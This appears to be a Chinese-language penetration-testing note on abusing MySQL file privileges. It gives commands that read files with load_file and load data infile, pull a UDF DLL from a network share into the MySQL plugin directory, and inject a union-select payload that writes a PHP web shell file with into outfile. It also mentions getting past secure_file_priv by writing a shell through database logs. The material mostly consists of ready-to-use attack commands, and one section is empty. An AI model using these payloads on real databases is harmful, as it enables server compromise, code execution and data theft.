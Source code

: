 读文件前提：
1、用户权限足够高，尽量具有root权限。
2、secure_file_priv不为NULL



load_file()

```bash
insert into read2_tb(word) values (load_file('D:/test.txt'));



# load_file( )函数支持网络路径。如果你可以将DLL复制到网络共享中，那么你就可以直接加载并将它写入磁盘。
select load_file('\\\\192.168.0.19\\network\\lib_mysqludf_sys_64.dll') into dumpfile "D:\\MySQL\\mysql-5.7.21-winx64\\mysql-5.7.21-winx64\\lib\\plugin\\udf.dll";

```



load data infile 

```bash
load data infile 'D:/test.txt' into table read2_tb;
```



### 写文件

into outfile

```bash
select * from read2_tb where 1=1 into outfile 'D:/test2.txt';

# 写webshell
id =-1 union select 1,'<?php phpinfo();?>',3,4 into outfile 'c:\\1.php'
```



into dumpfile

```bash
```







### 突破secure-file-priv(通过数据库日志写shell)

5.5.53之前版本，默认情况下此变量（`secure-file-priv`）为空，允许使用mysql终端对secure_file_priv参数更新（不讨论windows环境安装情况）。
5.5.53及之后版本修改secure_file_priv值只能修改my.cnf配置文件（不讨论windows环境安装)。



**load_file:**

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220119190821425.png)
